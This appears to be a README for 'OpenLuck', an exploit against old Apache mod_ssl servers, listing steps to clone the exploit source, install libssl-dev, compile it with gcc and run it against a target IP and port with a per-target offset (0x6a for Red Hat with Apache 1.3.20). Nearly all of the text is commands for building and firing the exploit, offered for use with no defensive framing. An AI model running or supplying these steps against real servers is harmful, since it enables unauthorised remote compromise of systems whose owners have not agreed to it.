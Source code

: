 # OpenLuck

## Usage

1. Download OpenLuck.c
```
git clone https://github.com/anwarbil/Lucky.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o Open OpenLuck.c -lcrypto
````

4. Running the Exploit
```
./Open
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./Open 0x6a [Target Ip] [port] -c 40

for example:
```
./Open 0x6a 192.168.80.145 443 -c 40
```

